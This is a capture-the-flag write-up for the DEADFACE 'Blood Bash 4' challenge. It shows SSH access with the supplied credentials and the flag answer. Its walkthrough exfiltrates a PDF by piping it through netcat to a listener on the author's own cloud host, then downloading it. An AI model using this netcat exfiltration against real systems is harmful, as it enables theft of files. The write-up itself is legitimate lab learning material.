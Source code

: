 # [05 - Blood_Bash_4](https://deadface.ctfd.io/challenges#Blood%20Bash%204-16)

## description
```
A sensitive file from De Monne was exfiltrated by mort1cia. It contains data relating to a new web portal they're creating for their consumers. Read the contents of the file and return the flag as flag{flag_goes_here}.

Username: bl0ody_mary
Password: d34df4c3
bloodbash.deadface.io:22
```

## walkthrough

ok, so this has to be retrieval of

```
bl0ody_mary@3f511992bc19:~$ ls -l
-rw-r--r-- 1 bl0ody_mary bl0ody_mary    12444 Sep 14 20:20 'De Monne Customer Portal.pdf'
```

when we try, currently

```
$ scp bl0ody_mary@bloodbash.deadface.io:*.pdf .
bl0ody_mary@bloodbash.deadface.io's password:
the input device is not a TTY
```

was considering `nc` exfil, but don't have a publically accessible IP, so tried to solve with some `.bash_profile` and `.bashrc` checks, `[ "$PS1" == "" ] return;`, to no avail.

spinning up something on GCP


in their machine
```
bl0ody_mary@3f511992bc19:~$ nc -z -v 34.127.24.164 80
Connection to 34.127.24.164 80 port [tcp/*] succeeded!
l0ody_mary@3f511992bc19:~$ nc -w 3 34.127.24.164 80 < 'De Monne Customer Portal.pdf'
```

on GCP
```
conor@bastion:~$ sudo nc -l -v -p 80
listening on [any] 80 ...
164.90.158.159: inverse host lookup failed: Unknown host
connect to [10.138.0.3] from (UNKNOWN) [164.90.158.159] 58962
conor@bastion:~$ sudo nc -l -v -p 80 > foo.pdf
listening on [any] 80 ...
164.90.158.159: inverse host lookup failed: Unknown host
connect to [10.138.0.3] from (UNKNOWN) [164.90.158.159] 58964
conor@bastion:~$ ls -l
total 16
-rw-r--r-- 1 conor conor 12444 Oct 16 01:46 foo.pdf
```

on pride
```
$ wget http://34.127.24.164/foo.pdf
--2021-10-15 19:49:52--  http://34.127.24.164/foo.pdf
Connecting to 34.127.24.164:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 12444 (12K) [application/pdf]
Saving to: ‘foo.pdf’

foo.pdf                                    100%[========================================================================================>]  12.15K  --.-KB/s    in 0.005s

2021-10-15 19:49:52 (2.42 MB/s) - ‘foo.pdf’ saved [12444/12444]


```

opening the PDF, see the flag

## flag
```
flag{deM0nn3_dat4_4_us}
```

